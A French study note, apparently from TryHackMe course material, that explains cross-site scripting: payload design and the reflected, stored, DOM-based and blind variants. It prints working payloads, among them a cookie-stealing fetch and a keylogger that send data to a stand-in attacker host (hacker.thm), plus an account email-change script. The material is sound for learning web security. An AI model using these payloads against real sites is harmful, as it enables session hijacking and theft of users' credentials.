


# Failles XSS

[Retour](../README.md)

## Définition

Le Cross-Site Scripting, mieux connu sous le nom de XSS dans la communauté de la cybersécurité,
est classé comme une attaque par injection où du JavaScript malveillant est injecté dans une application web
dans l'intention d'être exécuté par d'autres utilisateurs.

## La notion de charge utile ou Payload

En XSS , la payload est le code JavaScript que nous souhaitons exécuter sur l'ordinateur cible.
La charge utile comporte deux parties : l’intention et la modification.

L'intention est ce que vous souhaitez que JavaScript fasse réellement, et la modification concerne
les changements apportés au code dont nous avons besoin pour le faire exécuter car chaque scénario est différent.

Voici quelques exemples d’ intentions XSS .

### Proof of Concept :

Il s'agit de la payload la plus simple où tout ce que vous voulez faire est de démontrer que vous pouvez
réaliser XSS sur un site Web. Cela se fait souvent en faisant apparaître une boîte d'alerte sur la page
avec une chaîne de texte, par exemple :

```javascript
<script>alert('XSS');</script>
```

### Session Stealing :

Les détails de la session d'un utilisateur, tels que les jetons de connexion, sont souvent conservés dans
des cookies sur la machine cible. Le JavaScript ci-dessous prend le cookie de la cible, encode le cookie en base64
pour garantir une transmission réussie, puis le publie sur un site Web sous le contrôle du pirate informatique
pour y être enregistré. Une fois que le pirate informatique dispose de ces cookies, il peut reprendre la session
de la cible et être connecté en tant qu'utilisateur.

```javascript
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

### Keylogger :

Le code ci-dessous agit comme un enregistreur de frappe. Cela signifie que tout ce que vous tapez sur la page Web
sera transféré vers un site Web sous le contrôle du pirate informatique. Cela pourrait être très préjudiciable si
le site Web sur lequel la charge utile était installée sur les connexions utilisateur acceptées ou les détails de la carte de crédit.

```javascript
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) )}</script>
```

### Business Logic :

Cette charge utile est beaucoup plus spécifique que les exemples ci-dessus. Il s’agirait d’appeler une ressource
réseau particulière ou une fonction JavaScript.

Par exemple, imaginez une fonction JavaScript permettant de modifier l'adresse e-mail de l'utilisateur appelée user.changeEmail().
Votre charge utile pourrait ressembler à ceci :

```javascript
<script>user.changeEmail('attacker@hacker.thm');</script>
```
Maintenant que l'adresse e-mail du compte a changé, l'attaquant peut effectuer une attaque de réinitialisation du mot de passe.


## Les types de XSS

### Reflected XSS

Le XSS réfléchi se produit lorsque les données fournies par l'utilisateur dans une requête HTTP 
sont incluses dans la source de la page Web sans aucune validation.

**Exemple de scénario :**

un site Web sur lequel si vous saisissez une saisie incorrecte, un message d'erreur s'affiche. 
Le contenu du message d'erreur est extrait du paramètre d'erreur dans la chaîne de requête et est intégré directement dans la source de la page.


L'application ne vérifie pas le contenu du paramètre error, ce qui permet à l'attaquant d'insérer du code malveillant.


La vulnérabilité peut être utilisée selon le scénario de l'image ci-dessous :


**Impact potentiel :**

l'attaquant pourrait envoyer des liens ou les intégrer dans une iframe sur un autre site Web contenant une payload
JavaScript aux victimes potentielles, les incitant à exécuter du code sur leur navigateur, révélant potentiellement des informations sur la session ou le client.

**Comment tester Reflected XSS :**

Vous devrez tester tous les points d'entrée possibles ; ceux-ci inclus:

- Paramètres dans la chaîne de requête URL
- Chemin du fichier URL
- Parfois des en-têtes HTTP (bien que peu exploitables en pratique)


### Stored XSS

Comme son nom l'indique, la charge utile XSS est stockée sur l'application Web (dans une base de données, par exemple),
puis est exécutée lorsque d'autres utilisateurs visitent le site ou la page Web.

**Exemple de scénario :**

un site Web de blog qui permet aux utilisateurs de publier des commentaires. Malheureusement, ces commentaires ne
sont pas vérifiés pour savoir s'ils contiennent du JavaScript ou filtrent tout code malveillant. Si nous publions maintenant un commentaire contenant du JavaScript, celui-ci sera stocké dans la base de données et tous les autres utilisateurs visitant actuellement l'article verront le JavaScript exécuté dans leur navigateur.



**Impact potentiel :**

le JavaScript malveillant pourrait rediriger les utilisateurs vers un autre site, voler le cookie de session de
l'utilisateur ou effectuer d'autres actions sur le site Web tout en agissant en tant qu'utilisateur visiteur.

**Comment tester le XSS stocké :**

Vous devrez tester tous les points d'entrée possibles où il semble que les données soient stockées, puis affichées
dans les zones auxquelles d'autres utilisateurs ont accès ; un petit exemple pourrait être :

- Commentaires sur un blog
- Informations sur le profil utilisateur
- Listes de sites Web
Parfois, les développeurs pensent que limiter les valeurs d'entrée côté client est une protection suffisante,
donc changer les valeurs en quelque chose que l'application Web ne s'attendrait pas est une bonne source de découverte.

### DOM Based XSS

DOM signifie Document Object Model et est une interface de programmation pour les documents HTML et XML.
Il représente la page afin que les programmes puissent modifier la structure, le style et le contenu du document.
Une page Web est un document, et ce document peut être affiché dans la fenêtre du navigateur ou en tant que
source HTML.

Un diagramme du DOM HTML est affiché ci-dessous :



Si vous souhaitez en savoir plus sur le DOM et acquérir une compréhension plus approfondie, w3.org dispose d'une excellente ressource.

**Exploiter le DOM**

DOM Based XSS est l'endroit où l'exécution de JavaScript se produit directement dans le navigateur sans qu'aucune nouvelle page ne soit chargée ni aucune donnée soumise au code backend. L'exécution se produit lorsque le code JavaScript du site Web agit sur une saisie ou une interaction de l'utilisateur.


**Exemple de scénario :**

Le JavaScript du site Web récupère le contenu du window.location.hash paramètre, puis l'écrit sur la page dans
la section en cours de visualisation. Le contenu du hachage n'est pas vérifié à la recherche de code malveillant,
ce qui permet à un attaquant d'injecter le JavaScript de son choix sur la page Web.

**Impact potentiel :**

Des liens créés pourraient être envoyés à des victimes potentielles, les redirigeant vers un autre site Web ou
volant le contenu de la page ou de la session de l'utilisateur.

**Comment tester le XSS basé sur Dom :**

XSS basé sur DOM peut être difficile à tester et nécessite une certaine connaissance de JavaScript pour lire 
le code source. 

### Blind XSS

Blind XSS est similaire à un XSS stocké (que nous avons abordé dans la tâche 4) dans le sens où votre charge utile
est stockée sur le site Web pour qu'un autre utilisateur puisse la voir, mais dans ce cas, vous ne pouvez pas voir
la charge utile fonctionner ni pouvoir la tester contre vous-même d’abord.

**Exemple de scénario :**

un site Web dispose d'un formulaire de contact où vous pouvez envoyer un message à un membre du personnel. Le contenu du message n'est vérifié à la recherche d'aucun code malveillant, ce qui permet à l'attaquant de saisir tout ce qu'il souhaite. Ces messages sont ensuite transformés en tickets d'assistance que le personnel consulte sur un portail Web privé.

**Impact potentiel :**

en utilisant la charge utile appropriée, le JavaScript de l'attaquant pourrait rappeler le site Web d'un attaquant,
révélant l'URL du portail du personnel, les cookies du membre du personnel et même le contenu de la page du portail 
en cours de consultation. 

L'attaquant pourrait désormais potentiellement détourner la session du membre du personnel et accéder au portail privé.

**Comment tester Blind XSS :**

Lorsque vous testez les vulnérabilités Blind XSS, vous devez vous assurer que votre charge utile reçoit un rappel (généralement une requête HTTP).
De cette façon, vous savez si et quand votre code est en cours d'exécution.


Un outil populaire pour les attaques Blind XSS est [XSS Hunter Express](https://github.com/mandatoryprogrammer/xsshunter-express). Bien qu'il soit possible de créer votre propre outil en JavaScript, 
cet outil capturera automatiquement les cookies, les URL, le contenu des pages et bien plus encore.